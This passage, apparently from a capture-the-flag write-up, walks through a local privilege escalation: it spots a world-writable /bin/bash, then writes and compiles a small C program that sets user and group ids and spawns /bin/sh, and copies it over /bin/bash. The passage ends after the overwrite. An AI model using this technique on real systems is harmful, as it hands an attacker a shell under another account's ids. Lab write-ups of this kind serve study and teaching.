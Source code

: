 The other thing to notice is that `bash` is odd. I actually first picked this
up with the `dpkg --verify` trick I learned in Day 15:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:/$ dpkg --verify | grep -v " /usr/share"   
    ??5??????   /bin/bash
    

When I remove a bunch of documentation stuff in `/usr/share`, this is all
that’s left.

I wasted a bunch of time exfiling and analyzing this binary, but there is
something else odd about it - the permissions:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:/$ ls -l /bin/bash
    -rwxrwxrwx. 1 root root 959120 Dec 10 19:58 /bin/bash
    

`bash` is world-writable.

#### bash Overwrite

[This post I wrote](/2022/05/31/setuid-rabbithole.html) in 2022 goes into
detail about Linux uid/euid/ruid and how calling different processes via
`system` and `execve` handles these ids.The short answer here is that I want a
payload that will set all of the user ids to santa (and all of the group ids
to root). That looks like this:

    
    
    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>
    
    int main(void) {
        setresuid(1000, 1000, 1000);
        setresgid(0, 0, 0);
        system("/bin/sh");
        return 0;
    }
    

It’s using `setresuid`, which changes the real, effective, and saved user id
to 1000, which is santa. I can’t go to root here, as the `tool` binary runs as
uid 1000, and Linux blocks that escalation. I do also set the group ids to
root, as the group id from `tool` is root, so this is allowed.

I’m also calling `/bin/sh` with `system`, not `/bin/bash`. I’m going to
overwrite `bash` with this, so I don’t want to get in a loop of calling
itself.

I’ll compile it, get a backup copy of `bash`, and then overwrite `/bin/bash`
with the new binary:

    
    
    server@3a753154-c61d-4c9f-8f19-f8d71d4918e6:~$ gcc shell.c -o shell
    server@3a753154-c61d-4c9f-8f19-f8d71d4918e6:~$ cp /bin/bash .
    server@3a753154-c61d-4c9f-8f19-f8d71d4918e6:~$ cp shell /bin/bash
    